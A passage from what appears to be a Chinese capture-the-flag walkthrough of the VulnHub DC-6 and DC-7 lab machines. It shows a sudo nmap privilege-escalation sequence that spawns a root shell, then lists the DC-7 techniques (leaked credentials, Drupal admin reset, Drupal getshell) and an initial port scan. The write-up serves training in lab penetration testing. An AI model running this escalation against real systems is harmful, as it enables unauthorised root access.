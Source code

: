   

最后也是用 `nmap` 提权为 `root` 用户：

```text
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```

  

![](https://pic1.zhimg.com/80/v2-f2a7721304be0fc97c3df1a1d397ffd4_720w.webp)

  

最终也是在 `/root` 目录下拿到了 `Flag`～

## DC7-通关手册

DC-7是另一个专门构建的易受攻击的实验室，目的是在渗透测试领域积累经验。

尽管这不是一个过于技术性的挑战，但这并不容易。

虽然这是从早期DC版本开始的逻辑发展（我不会告诉您哪个），但是其中涉及一些新概念，但是您需要自己弄清楚这些概念。:-)如果您需要求助于暴力破解或字典攻击，您可能不会成功。

您需要做的是在盒子外面思考。

Waaaaaay在盒子外面。:-)

下载地址：[https://www.vulnhub.com/entry/dc-7,356/](https://link.zhihu.com/?target=https%3A//www.sec-in.com/outLinkPage/%3Ftarget%3Dhttps%3A//www.vulnhub.com/entry/dc-7%2C356/)

## 运用的知识

`Github`泄露网站数据库配置信息导致泄露`SSH`  
`Drupal`重置网站管理员密码  
`Drupal8`-Getshell  
第三方软件提权`backups.sh`

## 信息搜集

拿到靶机先扫了扫端口开放服务：

```text
nmap -A -T4 192.168.1.146
```

  

![](https://pic3.zhimg.com/80/v2-dfbc7c6f7e29a0dd2298702f70838736_720w.webp)

  

靶机开放了 `22`（ssh）、`80`（http）服务，其中 `NMAP` 检测出 `http` 使用的网站是 `Drupal 8`，我们先打开看看把：

  

![](https://pic2.zhimg.com/80/v2-e0e96ca7b3a2f977f1cfd6b2cf78b489_720w.webp)

  